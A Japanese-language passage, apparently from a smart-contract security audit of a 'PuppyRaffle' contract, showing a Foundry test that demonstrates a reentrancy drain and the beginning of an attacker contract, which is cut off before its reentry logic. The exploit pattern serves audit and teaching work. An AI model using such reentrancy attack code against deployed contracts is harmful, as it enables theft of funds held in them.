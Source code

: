 - 攻撃者コントラクトを使用したリエントランシー攻撃のテストケース：

```javascript

    function testCanGetRefundReentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        console.log(
            "攻撃前のラッフルコントラクトの残高： %s",
            address(puppyRaffle).balance
        );

        // 攻撃者を導入
        AttackReentrant attackerContract = new AttackReentrant(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 10 ether);

        uint256 attackerContractBalanceBefore = address(attackerContract)
            .balance;

        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log(
            "攻撃前の攻撃者コントラクトの残高： %s",
            attackerContractBalanceBefore
        );
        console.log(
            "攻撃後の攻撃者コントラクトの残高： %s",
            address(attackerContract).balance
        );

               console.log(
            "攻撃後のラッフルコントラクトの残高： %s",
            address(puppyRaffle).balance
        );
    }


```

攻撃者コントラクト：

```javascript
contract AttackReentrant {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
```